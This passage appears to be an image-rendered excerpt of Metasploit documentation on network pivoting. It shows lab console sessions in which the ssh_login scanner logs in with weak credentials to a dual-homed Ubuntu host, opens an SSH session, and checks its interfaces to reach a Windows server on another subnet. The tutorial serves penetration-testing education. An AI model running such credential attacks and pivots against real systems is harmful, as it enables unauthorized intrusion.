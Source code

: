 The pentester doesn't have access to the target Windows Server (different
subnet):
```
msf6 > ping -c 4 192.168.101.217
[*] exec: ping -c 4 192.168.101.217

ping: connect: Network is unreachable
```

## Reconnaissance

It is possible to pivot using SSH sessions and get access to the target. First,
the `auxiliary/scanner/ssh/ssh_login` module can be used to established a first
session:
```
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > run rhosts=192.168.100.245 username=testuser password=123456

[*] 192.168.100.245:22 - Starting bruteforce
[+] 192.168.100.245:22 - Success: 'testuser:123456' 'uid=1001(testuser) gid=1001(testuser) groups=1001(testuser) Linux ubuntu 5.15.0-52-generic #58~20.04.1-Ubuntu SMP Thu Oct 13 13:09:46 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (192.168.100.243:33577 -> 192.168.100.245:22) at 2022-12-19 16:12:33 +0100
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type         Information    Connection
  --  ----  ----         -----------    ----------
  1         shell linux  SSH n00tmeg @  192.168.100.243:33577 -> 192.168.100.245:22 (192.168.100.245)
```

Check if this host can access the target:
```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 1
[*] Starting interaction with 1...

ifconfig
ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.101.229  netmask 255.255.255.0  broadcast 192.168.144.255
        inet6 fe80::7ddc:2e0e:5542:4e4c  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:84:66:af  txqueuelen 1000  (Ethernet)
        RX packets 25806  bytes 26108736 (26.1 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 14801  bytes 5869061 (5.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens37: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.100.245  netmask 255.255.255.0  broadcast 192.168.133.255
        inet6 fe80::c0b:5cfb:f705:8bfa  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:84:66:b9  txqueuelen 1000  (Ethernet)
        RX packets 13323  bytes 9246633 (9.2 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8435  bytes 4177204 (4.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
```